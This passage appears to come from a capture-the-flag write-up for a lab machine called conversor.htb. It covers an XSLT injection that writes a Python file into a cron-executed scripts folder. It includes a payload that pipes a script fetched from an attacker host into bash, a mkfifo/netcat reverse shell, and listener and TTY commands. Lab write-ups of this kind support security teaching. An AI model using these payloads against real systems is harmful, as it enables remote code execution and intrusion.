 The `/about` page allows downloading the application source code. After decompressing:

```bash
tar -xf source_code.tar.gz
```

Inside, the `install.md` file mentions a cron job:

```text
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

**Observation:** Any Python script uploaded to `/var/www/conversor.htb/scripts/` will run every minute. This is key for remote code execution.

---

## Exploiting the Application

Create a malicious XSLT payload (`payload.xslt`) to write a Python script on the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:payload="http://exslt.org/common" extension-element-prefixes="payload">
<xsl:template match="/">
<payload:document href="/var/www/conversor.htb/scripts/payload.py" method="text">
import os
os.system("curl http://<ATTACKER_IP>:8000/shell.sh | bash")
</payload:document>
</xsl:template>
</xsl:stylesheet>
```

* Serve a reverse-shell script (`shell.sh`) on your attacker machine:

```bash
#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

* Upload the payload by submitting XML (e.g., Nmap XML scan) to the web application.
* Set up a Netcat listener:

```bash
nc -nlvp <ATTACKER_PORT>
```

* After one minute, you get a shell. Spawn a proper TTY:
![Webserver callback](webserv-callback.png)
![netcat callback](netcat-callback.png)

```bash
export TERM=xterm
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
